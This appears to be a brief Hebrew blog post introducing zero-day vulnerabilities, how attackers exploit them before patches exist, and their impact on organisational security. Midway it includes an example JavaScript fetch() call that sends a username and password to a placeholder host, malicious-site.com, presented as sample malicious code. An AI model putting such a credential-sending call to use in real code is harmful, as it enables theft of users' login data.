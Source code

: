 ```yaml
---
קצת על פגיעויות יום אפס
---
```

כותב: אופיר
---
תאריך: 30/08/2024
---

# פגיעויות יום אפס: מהן וכיצד הן משפיעות על אבטחת הסייבר

**פורסם בתאריך**: 28 באוגוסט 2024  
**מאת**: Ofir P.  
**נושא**: A little bit on Zero-Day

---

פגיעויות יום אפס (Zero-Day Vulnerabilities) הן אחד מהאיומים החמורים ביותר בעולם הסייבר. במאמר זה נחקור מהן פגיעויות יום אפס, כיצד הן מתגלות, וההשפעות הרבות שיש להן על אבטחת המידע בארגון.

## מהי פגיעות יום אפס?

פגיעות יום אפס היא פרצה או חולשה בתוכנה או בחומרה שטרם התגלתה על ידי המפתחים. האקרים מנצלים פגיעויות אלו באופן מהיר, לפני שהמפתחים יכולים לשחרר תיקון או עדכון.

### תכונה מרכזית:

- **חדשנות התקפה**: פגיעות יום אפס נוצרת כאשר הקהילה או החברה טרם מודעת לבעיה. זה יוצר חלון זמן מסוכן שבו ההאקרים יכולים לפעול.

```quote
"החולשה הכי מסוכנת היא זו שאיננו יודעים על קיומה." — חוקר אבטחת מידע

// קוד זדוני לדוגמה
fetch('https://malicious-site.com/exploit', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
  },
  body: JSON.stringify({
    username: 'victim',
    password: 'password123'
  })
})
.then(response => response.json())
.then(data => console.log('Exploited successfully:', data))
.catch(error => console.error('Error:', error));

---
"אל תמתין לפרצה הבאה - הקדם תרופה למכה." — מומחה לאבטחת מידע

